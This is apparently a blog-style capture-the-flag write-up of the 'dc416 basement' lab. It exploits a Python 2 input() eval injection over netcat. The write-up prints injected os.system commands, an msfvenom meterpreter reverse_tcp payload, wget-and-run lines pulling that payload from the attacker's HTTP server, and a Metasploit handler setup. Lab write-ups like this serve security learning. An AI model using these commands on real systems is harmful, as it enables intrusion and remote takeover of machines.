 ```yaml
---
layout: post
title: dc416 - basement
---
```


#getting started
{% highlight bash %}
nmap -T4 -A -v -p0-65535 192.168.0.8 -oN nmap-results.txt
{% endhighlight %}

Looks like services are running, ports 10000 and 10001

#10000
Running:

{% highlight bash %}
nc 192.168.0.9 10000
{% endhighlight %}

provides a prompt asking for a number of packets, let's try 1, this appears
to be a service that pings localhost.

Now to try some non-numeric input, this spits out an error:

{% highlight bash %}
Traceback (most recent call last):
  File "./ping.py", line 3, in <module>
    num_packets = int(input(' Please enther number of packets: '))
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
{% endhighlight %}

Time for some research, I tried searching for: python 2 input(), looks like this
is an unsafe method, at least the way it is being used here.  In this case the
input that is supplied for a number of packets ends up being evaluated as a
string of python code.

Lets try something else:
{% highlight bash %}
echo "__import__('os').system('ls -latr')" | nc 192.168.0.14 10000
{% endhighlight %}

Here we are sending the string:
{% highlight python %}
__import__('os').system('ls -latr')
{% endhighlight %}

for evaluation by the python interpreter on the machine running this service,
for the purpose of testing the shell command ls -latr is being passed down, and
in return the output is the home directory of the user running our service.  At
this point we can start executing commands, looks like its time to generate a
payload to pull down to the remote machine.

Next I create a meterpreter for reverse_tcp handling using msfvenom:

{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.11 LPORT=4444 -f elf > basement-meterpreter
{% endhighlight %}

Now to get the payload onto the host:

{% highlight bash %}
python -m SimpleHTTPServer
{% endhighlight %}

then while the server is running:

{% highlight bash %}
echo "__import__('os').system('wget -O /tmp/meterpreter http://192.168.0.11:8000/basement-meterpreter')" | nc 192.168.0.9 10000
echo "__import__('os').system('chmod a+x /tmp/meterpreter')" | nc 192.168.0.9 10000
echo "__import__('os').system('ls -latr /tmp')" | nc 192.168.0.9 10000
echo "__import__('os').system('/tmp/meterpreter &')" | nc 192.168.0.9 10000
{% endhighlight %}

These commands (in order) will to the following:
- grab the file we generated with msfvenom and throw it into /tmp with the name meterpreter
- change the meterpreter payload to be executable
- validate the file exists in the given location and is executable

Next in MSF run:
{% highlight bash %}
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.11
set LPORT 4444
run
{% endhighlight %}

Now hop back over to the terminal and run:
{% highlight bash %}
echo "__import__('os').system('/tmp/meterpreter &')" | nc 192.168.0.9 10000
{% endhighlight %}

Now back in MSF we'll have an active command line and can run:

{% highlight bash %}
ls -latr
{% endhighlight %}

the output shows flag.txt, executing: cat flag.txt we get:

{% highlight bash %}
flag{j4cks_t0t4l_l4cK_0f_$uRpr1sE}
{% endhighlight %}





